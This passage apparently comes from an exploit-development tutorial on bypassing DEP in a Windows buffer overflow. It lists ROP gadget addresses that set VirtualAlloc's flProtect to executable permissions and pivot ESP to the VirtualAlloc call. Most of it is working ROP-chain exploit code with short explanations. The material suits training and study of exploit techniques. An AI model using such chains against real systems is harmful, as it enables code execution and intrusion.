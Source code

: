 ```py
...
```

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP/4.gif)

# ESP to VirtualAlloc

Now, the last step is to point the ESP to VirtuaAlloc, which one we just patched.

Here we need to get the ECX - 20, because it's this value that we have the VirtualAlloc API address.

So, we put -20 on EBP and then ADD it to ECX, that's going to decresce 20 bytes in ECX and we'll get on the VirtualAlloc API, and then we move ecx value to esp, to be executed

```
0x6aa812c9,  # pop ebp; ret;
0xffffffec,  # -20
0x6d9c8e42,  # add ecx, ebp; ret;
0x6eb53647,  # mov esp, ecx; ret;
```

```py
...
##############
# -> flProtect (0x51515151)
##############
## Increase 4 bytes in ECX
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
## PUT -0x40 in EAX
0x61b6122a,  # pop eax; ret;
0xffffffc0,  # -0x40
## NEG EAX, to become 40
0x699ef43a,  # neg eax; ret;
## Write on 0x51515151 (ECX)
0x6d9cb59c,  # mov dword ptr [ecx], eax; ret;

##############
# -> ECX to ESP
##############
## PUT -20 on EBP
0x6aa812c9,  # pop ebp; ret;
0xffffffec,  # -20
## DEC ECX in 20
0x6d9c8e42,  # add ecx, ebp; ret;
## PUT ECX, on ESP
0x6eb53647,  # mov esp, ecx; ret;
...
```
